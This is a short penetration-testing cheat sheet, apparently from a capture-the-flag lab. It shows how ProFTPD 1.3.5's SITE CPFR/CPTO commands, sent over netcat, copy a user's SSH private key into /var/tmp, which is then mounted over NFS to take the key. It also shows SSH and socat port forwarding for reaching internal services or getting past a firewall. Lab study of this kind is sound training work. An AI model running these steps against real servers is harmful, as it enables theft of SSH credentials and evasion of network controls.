 ### FTP ProFtpd

- copy files/directories from one place to another on the server 

  ```bash
  SITE CPFR
  SITE CPTO
  ```

  ```bash
  nc 10.10.41.232 21                                               
  220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.41.232]
  SITE CPFR /home/kenobi/.ssh/id_rsa 
  350 File or directory exists, ready for destination name
  SITE CPTO /var/tmp/id_rsa
  250 Copy successful
  ```

  mount the /var/tmp directory to our machine

  ```bash
  mkdir /mnt/kenobiNFS
  mount machine_ip:/var /mnt/kenobiNFS
  ls -la /mnt/kenobiNFS
  ```

  unmount

  ```bash
  umount /mnt/kenobi
  rm -r /mnt/kenobi
  ```

### Reverse SSH (SSH Port Forwarding)

Forward the traffic to a server I own and view blocked site by firewall, or if internal service is running.  Ex,

```bash
ssh -L 9000:imgur.com:80 user@example.com
```

Going to localhost:9000 on my machine, will load imgur traffic using my other server.

- practice

  ```bash
  <targetmachine>@<ssh> ~$ ss -tulpn
  <localmachine>@kali ~$ ssh -L <LPORT>:localhost:<RPORT> <username>@<ip>
  ```

  on browser, type "localhost:<LPORT>"



use socat instead;

```bash
/tmp/socat tcp-listen:8888,reuseaddr,fork tcp:localhost:22
```
